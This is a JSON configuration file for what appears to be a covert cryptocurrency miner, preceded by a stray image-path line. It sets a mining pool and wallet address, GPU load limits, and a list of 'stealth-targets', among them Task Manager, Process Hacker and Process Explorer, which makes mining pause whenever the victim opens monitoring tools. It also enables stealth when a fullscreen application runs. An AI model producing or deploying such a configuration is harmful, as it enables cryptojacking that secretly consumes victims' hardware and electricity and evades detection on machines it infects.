 {
    "url": "stratums://0xe4ac3124c713137B3d1554A1101f1f0E3B0d1F58.kuzya@etc.2miners.com:11010",
    "algo": "etchash",
    "max-gpu": 30,
    "idle-wait": 5,
    "idle-gpu": 80,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}
